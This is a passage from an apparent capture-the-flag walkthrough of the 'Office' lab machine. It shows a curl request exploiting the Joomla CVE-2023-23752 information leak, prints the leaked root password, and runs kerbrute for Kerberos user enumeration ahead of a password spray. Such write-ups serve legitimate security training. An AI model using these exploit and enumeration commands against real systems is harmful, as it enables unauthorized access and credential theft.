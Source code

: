 
We type in Google "Joomla 4.x CVE" and we can find in first links the same CVE: CVE-2023-23752.

```bash
curl -v http://office.htb/api/index.php/v1/config/application?public=true
```

![curl_result](images/Office8.png)

We got creds:

root:H0lOgrams4reTakIng0Ver754!

### Phase 3: Credential Validation & Kerberos Enumeration

I failed trying to login with these creds on website, let's try to enumerate users and then do a Password Spray attack:

```bash
git clone https://github.com/ropnop/kerbrute
cd kerbrute
sudo make all
cd dist
./kerbrute_linux_amd64 userenum -t 100 -d office.htb --dc dc.office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

![kerbute_result](images/Office9.png)
